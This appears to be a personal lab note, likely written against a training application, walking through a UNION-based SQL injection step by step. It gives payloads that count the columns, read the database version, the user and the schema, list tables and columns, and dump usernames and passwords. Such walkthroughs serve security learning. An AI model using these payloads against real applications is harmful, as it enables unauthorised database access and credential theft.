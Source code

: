 Determine the number of columns:

```sql
1' union select 1,2 -- -
```

![[Pasted image 20241103115404.png]]

View the version number:

```sql
1' union select 1,@@version -- -
```

![[Pasted image 20241103115433.png]]

Find user db is running under:

```sql
1' union select 1,(select user()) -- -
```

![[Pasted image 20241103115458.png]]

Find database name:

```sql
1' union select 1,(SELECT database()) -- -
```

![[Pasted image 20241103115516.png]]

Find all tables available within working database:

```sql
1 'union select table_name , null from information_schema.tables -- - 
```

![[Pasted image 20241103115606.png]]

To view the columns for the users table:

```sql
1' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users' -- -
```

![[Pasted image 20241103115644.png]]

To extract the data from the username and password column:

```sql
1 ' UNION SELECT user, password FROM users -- -
```

![[Pasted image 20241103115658.png]]

Or to display usernames and password on a single line:

```bash
1' union select null,CONCAT(user,':',password) FROM users -- - 
```

![[Pasted image 20241103115934.png]]
